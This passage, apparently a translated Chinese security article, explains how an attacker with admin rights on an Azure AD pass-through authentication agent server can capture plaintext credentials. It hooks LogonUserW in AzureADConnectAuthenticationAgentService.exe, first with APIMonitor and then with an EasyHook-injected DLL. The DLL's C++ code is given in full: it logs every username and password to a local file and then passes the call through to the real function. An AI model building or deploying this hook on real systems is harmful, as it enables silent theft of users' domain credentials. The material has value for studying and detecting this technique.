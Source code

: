 ## 代理滥用

为了能利用代理服务器，我们需要：
- 修改Azure AD Connect配置，让其使用Pass-Through的验证方式。
- 在一个安装了Azure代理的服务器上拥有管理员权限。
攻破了安装有Azure代理的服务器后，我们可以对验证流程进行修改。负责验证凭据的过程通常被称作****AzureADConnectAuthenticationAgentService.exe****，这个过程依赖API函数****LogonUserW****。微软的文档中提到，“身份验证代理会根据内部AD对用户名和密码进行验证，这个过程中使用了****dwLogonType****参数值为**LOGON32_LOGON_NETWORK**的[Win32 LogonUser API](https://msdn.microsoft.com/library/windows/desktop/aa378184.aspx)。

如果使用[APIMonitor](http://www.rohitab.com/apimonitor) (如果拥有管理员权限，该工具可以劫持任意Windows API调用)劫持该API的调用，我们可以在身份验证过程中发现一些很有意思的东西：

[![](https://p3.ssl.qhimg.com/t011e24793ac18e0b27.png)](https://p3.ssl.qhimg.com/t011e24793ac18e0b27.png)

使用密码“mypassword”对用户“noob”进行了验证。

[![](https://p0.ssl.qhimg.com/t01571a108a61afaf43.png)](https://p0.ssl.qhimg.com/t01571a108a61afaf43.png)



## 创建一个API监控器

现在我们已经知道如何访问密码了，那么能够自动化这个过程呢？

计划是在****AzureADConnectAuthenticationAgentService.exe****中注入DLL，把指向****LogonUserW****的指针改写为指向我们自己的函数。

我们使用[EasyHook](https://easyhook.github.io/)工具写了一个DLL，该文件会劫持****LogonUserW****函数，并替换成一个新的****LogonUserW****函数。

```
BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD   dwLogonType, DWORD   dwLogonProvider, PHANDLE phToken)
`{`
  //Write to file
  ofstream myfile;
  myfile.open("c:\temp\shhhh.txt", std::ios_base::app);

  string user = utf8_encode(lpszUsername);
  string pass = utf8_encode(lpszPassword);    
myfile &lt;&lt; "Username: ";
  myfile &lt;&lt; user &lt;&lt; "n";
  myfile &lt;&lt; "Password: ";
  myfile &lt;&lt; pass &lt;&lt; "nn";
  myfile.close();

  return LogonUserW(lpszUsername, lpszDomain, lpszPassword, dwLogonType, dwLogonProvider, phToken);
`}`
```

这个新函数需要的变量个数与****LogonUserW****相同，该函数被调用时，会创建一个文件****“shhhh.txt”**** ，在里面写入用户名和密码。该函数的返回结果和真正的****LogonUserW****函数使用原始参数返回的结果相同。
